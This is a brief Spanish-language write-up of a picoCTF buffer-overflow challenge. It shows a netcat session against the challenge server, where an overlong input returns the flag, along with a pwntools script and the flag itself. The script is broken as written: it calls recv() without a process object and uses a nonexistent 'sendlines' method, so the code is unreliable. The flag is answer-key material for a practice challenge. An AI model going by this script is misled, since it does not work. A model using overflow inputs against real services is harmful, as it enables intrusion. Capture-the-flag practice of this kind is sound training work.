 ## Descripción 

Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/173/vuln). You can view source [here](https://artifacts.picoctf.net/c/173/vuln.c). And connect with it using:`nc saturn.picoctf.net 51532`

## Hints



## Solución
```
kifuel@DESKTOP-3C07MOG:~$ nc saturn.picoctf.net 51532
Input: 12345678901234567890123456879
picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}

```

```
from pwn import *

p = process('./vuln')
linea = recv()
print(linea)

p.sendlines('aaaaaaaaaaaaaaaaaa')
linea = p.recv()
print(linea)
```

## Bandera
picoCTF{ov3rfl0ws_ar3nt_that_bad_90d2bb58}